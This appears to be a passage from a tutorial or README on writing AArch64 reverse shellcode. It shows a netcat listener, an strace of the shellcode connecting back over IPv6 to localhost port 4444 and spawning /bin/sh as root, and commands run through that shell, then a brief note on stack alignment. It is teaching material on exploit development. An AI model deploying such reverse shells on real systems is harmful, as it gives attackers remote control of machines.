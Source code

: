     On the Target run the reverse-shellcode program
    Start the client as root on the target
    $ su
    passphrase
    # netstat -tlpn
    (Not all processes could be identified, non-owned process info
    will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address    Foreign Address        State       PID/Program name    
    tcp        0      0 127.0.0.53:53    0.0.0.0:*              LISTEN      -                   
    tcp        0      0 0.0.0.0:22       0.0.0.0:*              LISTEN      -                   
    tcp6       0      0 :::22                 :::*              LISTEN      -                   
    tcp6       0      0 ::1:4444              :::*              LISTEN      22130/nc

    # strace -e execve,socket,connect,dup3 ./reverse-shellcode-mapped-ipv6
    execve("./reverse-shellcode-mapped-ipv6", ["./reverse-shellcode-mapped-ipv6"], 0xffffca985b20 /* 20 vars */) = 0
    Shellcode Length: 136 Bytes
    socket(AF_INET6, SOCK_STREAM, IPPROTO_IP) = 3
    connect(3, {sa_family=AF_INET6, sin6_port=htons(4444), inet_pton(AF_INET6, "::1", &sin6_addr), sin6_flowinfo=htonl(0), sin6_scope_id=0}, 28) = 0
    dup3(3, 2, 0)                           = 2
    dup3(3, 1, 0)                           = 1
    dup3(3, 0, 0)                           = 0
    execve("/bin/sh", NULL, NULL)           = 0 
    --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=20477, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
    --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=20478, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
    +++ exited with 0 +++

Returning to the terminal where netcat was started after receiving a connection from the client, execute any shell commands.  The requests for whoami, id and exit are shown below.
       
    $ nc -lv -6 localhost 4444
    Listening on [localhost] (family 10, port 4444)
    Connection from ip6-localhost 60360 received!
    whoami
    root
    id
    uid=0(root) gid=0(root) groups=0(root)
    exit
       
## Stack Management Issues

For AArch64, sp must be 16-byte aligned whenever it is used to access memory. This is enforced by AArch64 hardware.
